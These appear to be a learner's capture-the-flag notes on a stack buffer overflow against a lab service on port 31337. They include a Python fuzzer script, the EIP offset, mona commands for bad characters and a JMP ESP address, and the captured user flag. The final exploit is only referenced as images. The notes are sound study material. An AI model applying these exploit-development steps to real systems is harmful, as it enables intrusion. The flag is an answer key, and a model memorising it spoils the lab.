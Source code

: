 port 31337 is used for connection/interacting with the binary

![[Pasted image 20210531130842.png]]

## fuzzing
![[Pasted image 20210531131945.png]]

crashed in 200 bytes
![[Pasted image 20210531134334.png]]

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.1.108"

port = 31337
timeout = 5
prefix = ""

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      # s.recv(1024)
      #s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string + "\r\n", "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


## offset

EIP: 39654138
offset: 146
![[Pasted image 20210531134753.png]]

![[Pasted image 20210531134947.png]]

## bad chars
`!mona config -set workingfolder C:\mona`

`!mona bytearray -b "\x00"`

bad chars `\x00\x0a`
![[Pasted image 20210531135930.png]]

## jmp point

`!mona jmp -r esp -epb -b "\x00\x0a"`

080414C3

little endian: `\xc3\x14\x04\x08`

![[Pasted image 20210531140128.png]]

## exploit 

![[Pasted image 20210531140614.png]]

![[Pasted image 20210531140701.png]]

user === {H4lf_W4y_Th3r3}

